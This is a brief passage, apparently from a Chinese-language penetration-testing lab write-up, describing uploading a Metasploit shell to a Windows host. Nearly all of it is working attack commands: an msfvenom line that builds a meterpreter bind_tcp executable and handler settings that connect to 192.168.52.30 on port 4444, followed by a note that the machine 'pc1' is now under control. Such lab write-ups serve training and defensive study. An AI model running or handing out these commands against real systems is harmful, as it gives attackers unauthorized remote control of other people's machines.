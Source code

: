 直接上传msf的shell进行连接

```
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > msf.exe
use exploit/multi/handler 
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.52.30
set lport 4444
```

![截图](76aa0bed625c9a6a1d4235d9a03eaacc.png)

上线pc1
